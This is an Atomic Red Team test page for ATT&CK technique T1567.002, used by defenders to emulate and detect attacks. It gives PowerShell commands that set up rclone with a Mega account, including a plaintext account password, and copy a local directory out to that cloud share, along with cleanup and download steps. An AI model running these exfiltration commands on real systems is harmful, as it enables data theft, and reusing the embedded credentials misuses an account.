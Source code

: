 # T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/002)
<blockquote>

Adversaries may exfiltrate data to a cloud storage service rather than over their primary command and control channel. Cloud storage services allow for the storage, edit, and retrieval of data from a remote cloud storage server over the Internet.

Examples of cloud storage services include Dropbox and Google Docs. Exfiltration to these cloud storage services can provide a significant amount of cover to the adversary if hosts within the network are already communicating with the service. 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)](#atomic-test-1---exfiltrate-data-with-rclone-to-cloud-storage---mega-windows)


<br/>

## Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)
This test uses rclone to exfiltrate data to a remote cloud storage instance. (Mega)
See https://thedfirreport.com/2022/06/16/sans-ransomware-summit-2022-can-you-detect-this/

**Supported Platforms:** Windows


**auto_generated_guid:** 8529ee44-279a-4a19-80bf-b846a40dda58





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rclone_path | Directory of rclone.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002&#92;rclone-v*&#92;|
| rclone_config_path | Path to rclone's config file (default should be fine) | path | $env:appdata|
| dir_to_copy | Directory to copy | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002|
| mega_user_account | Mega user account | string | atomictesting@outlook.com|
| mega_user_password | Mega user password | string | vmcjt1A_LEMKEXXy0CKFoiFCEztpFLcZVNinHA|
| remote_share | Remote Mega share | string | T1567002|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item #{rclone_config_path}\rclone -ItemType directory
New-Item #{rclone_config_path}\rclone\rclone.conf
cd "#{rclone_path}"
.\rclone.exe config create #{remote_share} mega
set-Content #{rclone_config_path}\rclone\rclone.conf "[#{remote_share}] `n type = mega `n user = #{mega_user_account} `n pass = #{mega_user_password}"
.\rclone.exe copy --max-size 1700k "#{dir_to_copy}" #{remote_share}:test -v
```

#### Cleanup Commands:
```powershell
cd "#{rclone_path}"
.\rclone.exe purge #{remote_share}:test
.\rclone.exe config delete #{remote_share}:
Remove-Item #{rclone_config_path}\rclone -recurse -force -erroraction silentlycontinue
cd c:\
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\T1567.002" -recurse -force
```



#### Dependencies:  Run with `powershell`!
##### Description: rclone must exist at (#{rclone_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{rclone_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://downloads.rclone.org/rclone-current-windows-amd64.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Expand-archive -path "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\T1567.002\" -force
```




<br/>
